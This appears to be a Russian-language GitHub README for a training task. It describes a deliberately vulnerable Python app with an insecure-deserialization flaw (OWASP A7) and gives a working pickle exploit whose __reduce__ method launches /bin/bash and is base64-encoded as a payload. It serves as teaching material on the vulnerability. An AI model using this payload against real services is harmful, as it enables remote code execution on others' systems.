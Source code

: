 # testTask
Минимальное приложение с уязвимостью из OWASP TOP 10 и эксплойт к нему.

Приложение написано с помощью языка программирования Python.

Уязвимость A7 - Insecure Serialization.

Уязвимость заключается в небезопасном проведении процедуры сериализации. Такая ситуация обычно возникает в лучае, если пользователь может повлиять на данные, которые используются в сериализации.

Процедура эксплуатации очень проста - нужно написать собственный класс на языке программирования Python с кодом, который необходимо выполнить при сборке объекта в памяти приложения. Сборка объекта может определяться самим объектом, который используют для сериализации.

Пример:
``` python
import cPickle
import subprocess
import base64

class exploit(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/bash',),))

print base64.b64encode(cPickle.dumps(exploit())) #<= payload, который можно передавать в уязвимое приложение
````
